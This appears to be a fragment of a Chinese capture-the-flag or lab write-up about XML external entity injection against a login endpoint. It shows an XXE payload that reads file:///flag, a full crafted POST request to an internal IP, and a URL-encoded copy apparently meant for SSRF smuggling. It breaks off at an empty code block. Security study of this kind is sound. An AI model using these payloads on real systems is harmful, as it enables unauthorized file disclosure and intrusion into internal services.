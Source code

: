 ##### 分析源码

```
<user><username>username</username><password>password</password></user>
POST
doLogin.php
contentType: application/xml;charset=utf-8
```

#### XML实体注入

##### payload

```xml
<!DOCTYPE test[<!ENTITY test SYSTEM "file:///flag">]>
<user><username>&test;</username><password>password</password></user>
```

##### burp构造post请求

```xml
POST /doLogin.php HTTP/1.1
Host: 172.72.23.25
Content-Length: 124
Content-Type: application/xml;charset=utf-8

<!DOCTYPE test[<!ENTITY test SYSTEM "file:///flag">]>
<user><username>&test;</username><password>password</password></user>
```

![image-20240905140749816](https://image.201068.xyz/assets/29.SSRF/image-20240905140749816.png)

###### 编码一次

```
%50%4f%53%54%20%2f%64%6f%4c%6f%67%69%6e%2e%70%68%70%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%35%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%31%32%34%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%63%68%61%72%73%65%74%3d%75%74%66%2d%38%0d%0a%0d%0a%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%5b%3c%21%45%4e%54%49%54%59%20%74%65%73%74%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%66%6c%61%67%22%3e%5d%3e%0d%0a%3c%75%73%65%72%3e%3c%75%73%65%72%6e%61%6d%65%3e%26%74%65%73%74%3b%3c%2f%75%73%65%72%6e%61%6d%65%3e%3c%70%61%73%73%77%6f%72%64%3e%70%61%73%73%77%6f%72%64%3c%2f%70%61%73%73%77%6f%72%64%3e%3c%2f%75%73%65%72%3e
```

![image-20240905141036801](https://image.201068.xyz/assets/29.SSRF/image-20240905141036801.png)

###### 编码二次

```bash
```